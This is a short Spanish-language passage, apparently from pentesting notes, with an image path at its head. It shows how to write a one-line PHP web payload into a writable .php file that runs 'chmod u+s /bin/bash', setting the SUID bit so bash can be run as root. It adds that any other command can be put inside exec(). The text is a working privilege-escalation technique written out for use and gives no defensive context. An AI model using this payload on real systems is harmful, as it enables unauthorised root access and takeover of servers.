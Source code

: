 Si por ejemplo tenemos .php al que tenemos acceso, podemos hacer lo siguiente:

echo '<?php exec("chmod u+s /bin/bash"); ?>' > /carpeta/.php

En este caso, estamos cambiando los permisos de /bin/bash para que podamos ejecutarla nosotros como root. En caso de querer ejecutar otro código, bastaría con cambiar lo que esta entre comillas tras exec().
